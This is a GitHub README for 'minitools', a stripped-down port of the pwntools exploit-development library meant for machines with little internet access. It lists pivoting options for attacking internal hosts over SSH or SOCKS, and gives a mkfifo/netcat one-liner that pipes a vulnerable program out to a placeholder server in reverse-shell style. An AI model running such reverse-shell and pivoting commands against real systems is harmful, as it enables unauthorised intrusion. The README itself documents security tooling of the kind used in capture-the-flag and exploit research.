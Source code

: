 # minitools
A portable, highly-compressed (~40KB) version of pwntools


# PLEASE DON'T USE THIS IF YOU DON'T HAVE TO!!!
I'f you've found this repository, I imagine it's because you want to use pwntools on a machine that has limited or no external internet access.
This repository *can* work as a solution, but treat it as a final option-- this is *very* hacky given that I'm trying to compress everything down so much.
If you can connect to the machine over SSH, you're in luck. Ignore this repository:
```python
conn = ssh('blah', 'server.com', password='password')
p = conn.process("/home/blah/pwn.elf") # attack a local process
p = conn.remote("172.16.45.9",9001) # attack a remote server (through the connection)
# continue exploit as normal
```
If SSH is disabled, you can try setting up a SOCKS proxy (if you need to attack an internal server):
```python
context.proxy = (2,'172.16.45.9',1081) # 2 for SOCKS5, 1 for SOCKS4
# remote() will now connect through the proxy
```
Or, in extreme cases, you can send the vulnerable program over reverse-shell style:
```python
# on your solve script
s = server(8888)
info("Waiting for connection on port 8888...")
p = s.next_connection() 
# continue exploit as normal
```
```bash
# on the internal machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|./vulnerable_program 2>&1|nc <your-server-ip> 8888 >/tmp/f
```

If none of these fit your use case, then you can give this a shot.
# Usage
Running `create_minified.sh` will create a file `minitools.zip`. You can import this with `sys` and begin your exploit as usual:
```python
import sys
sys.path.insert(0, 'minitools.zip')
from mini import *
# continue exploit your exploit script as normal
```

Minitools includes:
- Most of `remote()` and `process()` (minus uncommon functions like `recvline_regex`)
- Common packing functions (`u64`, `u32`, `p64`, `p32`, `flat` should also work)
- `cyclic()` and `cyclic_find()`
- Format string payload generation
- Argument parsing
- A mediocre implementation of logging
- A mediocre ELF parser


Minitools does not include:
- Pwntools' 'gdb' module
- ROP chain generation (I may attempt this later-- x86 only though)
- Support for non-x86 architectures
- The 'pwn' command-line tool

